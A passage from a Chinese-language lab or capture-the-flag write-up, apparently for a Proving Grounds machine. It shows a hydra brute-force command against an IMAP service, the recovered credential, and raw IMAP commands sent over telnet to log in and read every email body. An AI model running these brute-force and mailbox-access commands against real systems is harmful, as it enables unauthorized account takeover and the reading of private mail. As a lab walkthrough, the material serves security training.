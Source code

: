 使用新字典爆破

```
hydra -L users.txt -P zidian.txt 192.168.133.140 -s 143 imap
```

这样就能拿到一个凭证：Jonas/SicMundusCreatusEst

![image-20250310173402783](./PG_win.assets/image-20250310173402783.png)

可以使用telnet登录，参考文章：https://blog.csdn.net/pathfinder163/article/details/6397199

```
telnet 192.168.133.140 143
```

连接后输入凭证

```
a1 LOGIN Jonas SicMundusCreatusEst        #用户登录
a2 LIST "" *            #列出所有信箱列表
a3 SELECT INBOX          #选择收件箱
A04 Search ALL            #查询收件箱所有邮件，这个命令会列出邮箱中所有邮件的 UID，这里搜出来有5个
A05 FETCH 1 BODY[TEXT]      # 获取邮件编号 1 的正文内容
A06 FETCH 2 BODY[TEXT]      # 获取邮件编号 2 的正文内容
A06 FETCH 3 BODY[TEXT]      # 获取邮件编号 2 的正文内容
A06 FETCH 4 BODY[TEXT]      # 获取邮件编号 2 的正文内容
A06 FETCH 5 BODY[TEXT]      # 获取邮件编号 2 的正文内容
```

把邮件全部正文提取出来翻译了下，说**所有电子表格和文档都将先在邮件服务器上直接处理以检查兼容性**

![image-20250310175758900](./PG_win.assets/image-20250310175758900.png)
